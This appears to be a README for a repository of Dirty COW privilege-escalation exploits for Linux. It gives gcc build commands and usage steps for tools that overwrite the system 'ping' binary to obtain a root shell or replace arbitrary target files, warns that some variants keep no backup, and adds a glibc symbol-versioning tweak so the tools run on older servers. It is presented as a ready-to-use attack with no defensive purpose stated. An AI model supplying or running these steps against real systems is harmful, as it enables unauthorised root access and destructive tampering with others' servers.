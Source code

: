 # cow_exp
cow exp file2file / default / replace ELF

**[+] cowroot**

1. gcc -o cowroot -O2 -lpthread cowroot.c
2. ./cowroot
3. reboot
4. (RE getshell)ping && id
5. Do what u want do as root
6. Rember done all your stuff and rollback PING (/tmp/bak) <<< this is REAL ping

**[+] cowroot_225**
(same like cowroot, adapte gcc GLIBC_2.2.5 for some old servers)

**[+] cowf2f**

1. gcc -o cowf2f -O2 -lpthread cowf2f.c
2. ./cowf2f [taget-file] [your-file]
3. reboot
4. NO fucking backup!!!

**[+] dirtyc0w**

1. gcc -o dirtyc0w -O2 -lpthread dirtyc0w.c
2. ./dirtyc0w [taget-file] [(Str) blablabla]
3. NO fucking backup!!!

# PS:
* add `__asm__(".symver memcpy,memcpy@GLIBC_2.2.5");` in code.c to adapte {glibc_old}. default build with 2.2.5
